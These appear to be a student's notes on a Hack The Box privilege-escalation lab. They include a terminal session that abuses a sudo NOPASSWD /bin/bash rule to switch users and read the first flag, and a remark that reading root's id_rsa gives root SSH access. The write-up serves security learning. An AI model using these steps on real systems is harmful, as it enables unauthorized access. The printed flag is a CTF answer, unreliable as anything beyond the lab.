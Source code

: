 ## SSH to 83.136.249.33 with user "user1" and password "password1"

1. SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'.
2. Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'. 

## Notes

```
User user1 may run the following commands on ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:
    (user2 : user2) NOPASSWD: /bin/bash

```
This may be useful later for priv exec
```
User user1 may run the following commands on ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:
    (user2 : user2) NOPASSWD: /bin/bash
user1@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:/$ sudo -u user2 /bin/bash
user2@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:/$ dir
bin  boot  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
user2@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:/$ dir home
user1  user2
user2@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:/$ cd /home/user2
user2@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:~$ dir
flag.txt
user2@ng-1423594-gettingstartedprivesc-g7cea-5bb59f9ff7-drh8x:~$ cat flag.txt
HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}

```
Was able to `sudo -u user2 /bin/bash` which weirdly moved me over to user2, I then navigated to their home directory and read the first flag.
[Exploit for NOPASSWD /bin/bash ](https://medium.com/schkn/linux-privilege-escalation-using-text-editors-and-files-part-1-a8373396708d) 

This is interesting
![image](https://github.com/user-attachments/assets/7994d2ee-9c99-46e1-b5e1-cc0bd8b90ce8)

Doesn't appear the cron jobs are useful to me
Nothing in command history

![image](https://github.com/user-attachments/assets/3ab80913-5de4-461a-a700-342c2589d7b4)

I was able to use `find / -name authorized_keys`

We can read the id_rsa so we can copy the key and login as root from our machine

![image](https://github.com/user-attachments/assets/610ac717-e356-40c2-bd03-4ba8c0af15dc)

